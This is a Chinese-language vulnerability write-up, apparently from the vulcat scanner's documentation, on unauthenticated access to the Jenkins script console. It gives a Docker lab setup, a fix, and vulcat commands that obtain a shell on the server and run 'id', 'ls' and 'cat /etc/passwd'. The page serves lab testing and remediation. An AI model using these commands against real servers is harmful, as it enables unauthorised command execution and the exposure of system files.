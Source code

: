 # 🧡 Jenkins未授权访问

### 1）漏洞信息

|漏洞名称	|受影响组件	|漏洞类型	|漏洞编号	|
|--	|--	|--	|--	|
|Jenkins未授权访问	|[Jenkins](https://www.jenkins.io/zh/)	|未授权访问	|暂无	|

|漏洞简介	|
|--	|
|<p>默认情况下 Jenkins面板中用户可以选择执行脚本界面 来操作一些系统层命令</p>攻击者可通过未授权访问漏洞，或者暴力破解用户密码等方式进入后台管理服务，通过脚本执行界面获取服务器权限	|

|参考链接	|
|--	|
|<ol><li><a href="https://blog.csdn.net/weixin_40412037/article/details/120369441">https://blog.csdn.net/weixin_40412037/article/details/120369441</a></li></ol>	|

|补丁及修复方案	|
|--	|
|<ol><li>配置Jenkins登录验证</li></ol>	|

### 漏洞环境

```
docker pull jenkins:1.625.1
docker run -itd -p 8080:8080 -p 50000:50000 jenkins:1.625.1
```

<figure><img src="../../../static/imgs/vulns-jenkins/unauth/01.png" alt=""><figcaption></figcaption></figure>

启动容器后，访问8080端口即可看到jenkins页面
<figure><img src="../../../static/imgs/vulns-jenkins/unauth/02.png" alt=""><figcaption></figcaption></figure>


### 漏洞复现

```
python3 vulcat.py <URL> -a jenkins -v unauth
```

<figure><img src="../../../static/imgs/vulns-jenkins/unauth/03.png" alt=""><figcaption></figcaption></figure>

你可以使用Request数据包：
<figure><img src="../../../static/imgs/vulns-jenkins/unauth/04.png" alt=""><figcaption></figcaption></figure>
<figure><img src="../../../static/imgs/vulns-jenkins/unauth/09.png" alt=""><figcaption></figcaption></figure>


#### 支持--shell选项
```
python3 vulcat.py <URL> -a jenkins -v unauth --shell
```
<figure><img src="../../../static/imgs/vulns-jenkins/unauth/05.png" alt=""><figcaption></figcaption></figure>

* id
<figure><img src="../../../static/imgs/vulns-jenkins/unauth/06.png" alt=""><figcaption></figcaption></figure>

* ls -l
<figure><img src="../../../static/imgs/vulns-jenkins/unauth/07.png" alt=""><figcaption></figcaption></figure>

* cat /etc/passwd | vcsearch .{0,20}root.{0,800}
<figure><img src="../../../static/imgs/vulns-jenkins/unauth/08.png" alt=""><figcaption></figcaption></figure>
